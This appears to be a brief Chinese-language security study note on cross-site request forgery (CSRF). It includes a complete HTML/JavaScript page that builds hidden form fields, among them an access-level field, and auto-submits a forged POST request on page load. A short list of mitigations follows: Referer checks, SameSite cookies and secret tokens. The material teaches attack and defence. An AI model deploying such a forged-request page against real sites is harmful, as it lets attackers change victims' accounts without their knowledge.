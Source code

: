 # CSRF

Cross-site Request Forgery(CSRF).

- GET：img的src标签可以达成

- POST：javascript构造

  ```javascript
  <html>
  <body>
  <h1>This page forges an HTTP POST request.</h1>
  <script type="text/javascript">
  function forge_post()
  {
      var fields;
      // The following are form entries need to be filled out by attackers.
      // The entries are made hidden, so the victim won’t be able to see them.
      fields += "<input type=’hidden’ name=’name’ value=’****’>";
      fields += "<input type=’hidden’ name=’briefdescription’ value=’****’>";
      fields += "<input type=’hidden’ name=’accesslevel[briefdescription]’
      value=’2’>"; ➀
      fields += "<input type=’hidden’ name=’guid’ value=’****’>";
      // Create a <form> element.
      var p = document.createElement("form");
      // Construct the form
      p.action = "http://www.example.com";
      p.innerHTML = fields;
      p.method = "post";
      // Append the form to the current page.
      document.body.appendChild(p);
      // Submit the form
      p.submit();
  }
  // Invoke forge_post() after the page is loaded.
  window.onload = function() { forge_post();}
  </script>
  </body>
  </html>
  ```

## Mitigation

- referer头：浏览器为保护隐私可能关闭
- 同站cookie：区别cookie能否跨站使用
- secret token：附加在表单或请求中，以进行验证。